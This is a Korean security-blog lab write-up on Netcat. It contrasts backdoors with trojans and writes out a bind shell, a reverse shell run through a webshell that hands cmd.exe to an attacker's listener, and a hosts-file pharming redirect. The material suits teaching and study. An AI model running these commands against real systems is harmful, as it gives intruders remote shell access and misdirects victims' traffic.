 ```yaml
---
title:  "Netcat을 활용한 web 해킹"
excerpt: "Netcat과 web-shell을 활용한 back-door, trojan 공격 실습"

categories: web-security
tags:
  - [netcat, web-shell]

toc: true
toc_sticky: true
 
date: 2022-05-11-00:00
last_modified_at: 2022-05-11-00:01
---
```

### Netcat이란?
* * *
- 대상 네트워크에 고양이처럼 몰래 왔다갔다하는 툴
- RAT (Remote Access Trojan)의 일종 : 네트워크 기능이 있는 실행파일
- 54kbyte 짜리 작은 용량으로 서버도 되고 

#### Backdoor 와 Trojan 차이

##### Backdoor
* * *
- Victim 의 포트를 열고 Victim에 접근
- 실제로 써먹기 어려운 문제가 있음
- 포트를 열어줘야하고 방화벽도 열어야 함
- 방화벽에 막혀서 외부에서 접근이 쉽지 않음 (대부분 차단함)
- Victim 에서 

```bash
# C:\ 에 nc.exe를 설치하고
$ nc -l -p 8000 -e cmd.exe
```

- Attacker 에서

```bash
$ sudo nc 192.168.89.131 8000
```

##### Trojan
* * *
- Attacker 의 포트를 열어놓고 Victim이 오기를 기다림
- 속임수를 써서 메일을 보냄, 첨부파일 안에 악성코드가 들어있음, 악성코드는 외부로 연결
- 보통 외부로 나가는 연결에 대해서는 방화벽이 열려 있음 > back door 보다 공격 용이
- Attacker 에서 trojan 열어놓고

```bash
$ sudo nc -l -p 8000
```

- victim에서 attacker에 접근하면 victim과 연결됨

![](../../assets/images/20220523-095653.png){: .center}

- Trojan 열어놓고 Webshell로

```bash
$ C:\\nc 192.168.89.133 8000 -e cmd.exe 
```

![](../../assets/images/20220523-100335.png){: .center}

**Pharming 공격**

```bash
C:/WINDOWS/system32/drivers/etc> echo 223.130.195.200 blabla.com >> hosts
```

- Explorer 주소창에 blabla.com 을 입력하면 네이버로 접속

![](../../assets/images/20220523-100223.png){: .center}